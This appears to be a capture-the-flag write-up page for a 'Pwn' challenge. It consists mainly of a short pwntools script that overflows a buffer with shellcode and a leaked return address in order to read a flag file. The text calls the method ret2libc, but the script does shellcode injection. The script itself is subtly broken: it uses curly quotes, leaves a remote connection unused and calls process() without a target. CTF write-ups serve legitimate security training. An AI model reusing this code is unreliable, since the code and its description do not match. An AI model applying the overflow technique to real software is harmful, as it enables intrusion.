

repository: cyscomvit/writeups · page: writeups/FinalTrace_2025/20-where-do-u-came-from.html · generator: jekyll

---
layout: writeup

title: Where do u came from
difficulty: Medium
points: 500
categories: [Pwn]
tags: []

flag: Dynamic Flag
---

## Where do u came from

- **Category**: Pwn

- **Author**: Kirubahari

## Challenge Description

Ret2libc attack

## Solution

### Steps

Finding the right offset using `dbg` in cyclic mode which gives the correct offset

The return address is given the binary itself.

Combining that both helps in exploiting

### Tools Used

- gdb

- python

```python

#! /usr/bin/python3

from pwn import *

elf = remote(“IP“,port)

io = process()

io.recvuntil(": ")

addr = int(io.recv(14), 16)

shellcode = asm(shellcraft.cat("flag.txt"))

payload = shellcode + cyclic(136 - len(shellcode)) + p64(addr)

io.sendline(payload)

io.interactive()

```
